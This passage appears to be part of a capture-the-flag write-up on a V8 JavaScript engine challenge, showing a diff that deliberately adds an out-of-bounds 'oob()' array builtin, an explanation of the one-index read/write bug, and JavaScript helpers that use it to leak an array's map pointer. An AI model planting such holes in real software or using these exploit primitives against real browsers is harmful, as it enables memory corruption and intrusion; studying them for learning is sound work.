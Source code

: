 ```diff
--- a/src/init/bootstrapper.cc
+++ b/src/init/bootstrapper.cc
@@ -2539,6 +2539,8 @@ void Genesis::InitializeGlobal(Handle<JSGlobalObject> global_object,
                           Builtin::kArrayPrototypeCopyWithin, 2, false);
     SimpleInstallFunction(isolate_, proto, "fill", Builtin::kArrayPrototypeFill,
                           1, false);
+    SimpleInstallFunction(isolate_, proto, "oob", Builtin::kArrayOob,
+                          2, false);
     SimpleInstallFunction(isolate_, proto, "find", Builtin::kArrayPrototypeFind,
                           1, false);
     SimpleInstallFunction(isolate_, proto, "findIndex",

```

Reading v8 code is hard, for now just pay attention to the changes to `builtins-array.cc` that adds a builtin function `oob()` for array, other changes are only added to make this builtin work. This is what `oob()` does:
- if number of args is greater than 2, return `undefined`. `ReadOnlyRoots(isolate).undefined_value()` means `undefined`.
- assign `Object::ToObject(isolate, args.receiver()))` to `receiver`. This line seems to get the current object.
- and cast it to `JSArray`. 
- and get the `element` array out of it. This array is used to store array values
- if number of args is 1 (such as `arr.oob()`), return `element[element->length()]`
- if number of args is 2 (such as `arr.oob(val)`), write `val` to `element[element->length()]`

So, the `oob()` builtin allows us to out-of-bound memory access by one index at the end of the array. Let's verify the bug.

```js
var buf = new ArrayBuffer(8);
var f64_buf = new Float64Array(buf);
var u64_buf = new BigUint64Array(buf);

function ftoi(val) { // typeof(val) = float
  f64_buf[0] = val;
  return u64_buf[0];
}

function itof(val) { // typeof(val) = BigInt
  u64_buf[0] = val;
  return f64_buf[0];
}

function hex(val) {
  return "0x" + val.toString(16);
}

let arr = [1.1];
print("[+] arr's map pointer @ " + hex(ftoi(arr.oob()) & 0xffffffffn));
% DebugPrint(arr);
```
